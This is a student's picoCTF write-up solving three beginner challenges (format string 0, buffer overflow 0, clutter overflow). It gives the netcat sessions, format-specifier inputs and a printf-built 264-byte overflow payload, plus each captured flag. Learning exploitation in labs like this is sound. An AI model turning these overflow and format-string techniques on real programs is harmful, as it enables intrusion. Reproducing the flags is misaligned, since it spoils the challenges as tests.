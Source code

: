 # 1. Format string 0
> Using knowledge of format strings to give the correct commands to netcat connection to get the flag.
## Solution:
- Through the description and hint provided, the correct command revolved around format specifiers.
- Used the webshell (terminal) given in the site and connected to the address given.
- The output started with an interface where we had to choose 1 correct option out of the three.
- Since, specifiers start with % sign, I tried the options with % first and got the flag upon the correct command.
- Also, the source code shows %s highlighted in the option strings, indicating that it is the right option.
```
vshhh-picoctf@webshell:~$ nc mimas.picoctf.net 51345
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_f89c1405}
```
## Flag:
```
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_f89c1405}
```
## Concepts Learnt:
- Format specifiers of strings in c programming- %s
- %114d is a specifier for signed decimal with atleast 114 characters.
- %to prints argument in octal numbers.
## Notes: 
- I saw the % sign in pe%to option and thought that it might be the correct answer.
- But that printed the octal value Pe20021560_Portobello instead.
- This is where I learned that %to converts to octal numbers.
- Then I followed the %s pattern in cheesesteak option to get the flag.
## Resources:
- https://www.geeksforgeeks.org/c/format-specifiers-in-c/
***
# 2. Buffer overflow 0
> Overflow the correct buffer in nc saturn.picoctf.net 60353 using the program and source code available.
## Solution:
- Running the netcat, we see there is an input needed.
- Looking at the souce code, we can see that the flag can be triggered through segmentation fault due to sigsegv_handler function.
- Also the input buffer has maximum size of 16 bytes.
- Overflowing the input with more than 16 bytes, we can create a segmentation fault and get the flag.
```
vshhh-picoctf@webshell:~$ nc saturn.picoctf.net 60353
Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```
## Flag:
```
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```
## Concepts Learnt:
- The sigsegv_handler function is a signal handler designed to handle segmentation fault signals. It prints the value of the global variable flag to standard output, flushes the output buffer, and then terminates the program with an exit code of 1.
- Buffer overflow occurs when software writing data to a buffer overflows the buffer’s capacity, resulting in adjacent memory locations being overwritten.
## Notes:
- I tried entering different characters instead of one, but that exited the program. This is because mixed values can cause less predictable behaviour.
- Also, the characters entered should be more than 16 but not few more than it, due to few more bytes of compiler padding and more for saved addresses and pointers.
- So, spammed As atleast 28 times might work.
## Resources:
- https://www.cloudflare.com/learning/security/threats/buffer-overflow/
***
# 3. Clutter overflow
> Find out what will trigger the code to give the flag.
## Solution:
- Seeing chall.c file with gets() along with challenge name, we can see that we have to overflow the clutter with right amount of characters to get the flag.
- Size given is 0x100 which in decimal is 256 and 8 bytes of little-endian value 0xdeadbeef  which is required to get the flag and additional 8 byte padding to overwrite the long variable. This gives total 264 bytes or characters to overflow.
- Printing first cammand- 'A%.0s' {1..264} > payload.bin which prints only A character 264 times (not the arguments) and added in a payload.bin file
- Next- append the hex value of 0xdeadbeef (8 bytes) to payload.bin
- Then append '\n' (new line) to end the script.
- Cat the bin file and redirect the output to netcat connection. This gave the flag.
```
vaish@DESKTOP-59LUGSG:/mnt/c/Users/Vaishnavi/Downloads$ printf 'A%.0s' {1..264} > payload.bin
vaish@DESKTOP-59LUGSG:/mnt/c/Users/Vaishnavi/Downloads$ printf '\xef\xbe\xad\xde\x00\x00\x00\x00' >> payload.bin
vaish@DESKTOP-59LUGSG:/mnt/c/Users/Vaishnavi/Downloads$ printf '\n' >> payload.bin
vaish@DESKTOP-59LUGSG:/mnt/c/Users/Vaishnavi/Downloads$ cat payload.bin | nc mars.picoctf.net 31890
 ______________________________________________________________________
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \^ ^ |
|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \ ^ _ ^ / |                | \^ ^|
| ^/_\^ ^ ^ /_________\^ ^ ^ /_\ | //  | /_\ ^| |   ____  ____   | | ^ |
|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|
| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |
|^ ^ ^ ^ ^| /     (   \ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \|^ ^|
.-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |
|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\ |^ ^|
| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |
|'.____'_^||/!\@@@@@/!\|| _'______________.'|==                    =====
|\|______|===============|________________|/|""""""""""""""""""""""""""
" ||""""||"""""""""""""""||""""""""""""""||"""""""""""""""""""""""""""""
""''""""''"""""""""""""""''""""""""""""""''""""""""""""""""""""""""""""""
""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
My room is so cluttered...
What do you see?
code == 0xdeadbeef: how did that happen??
take a flag for your troubles
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```
## Flag:
```
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```
## Concepts Learnt:
- gets() is not secure enough therefore can take overflow of characters.
- %.0s is a specifier that only prints the string and not any other argument.
- A payload file can be created to solve such challenges where the script overflows the netcat and gives the flag.
## Notes:
- At first I thought of adding only 256 bytes and 8 for padding.
- Upon inspecting the code even further I realised that the code also has to match 0xdeadbeef. So added its hex form.
## Resources:
- https://owasp.org/www-community/attacks/Buffer_overflow_attack
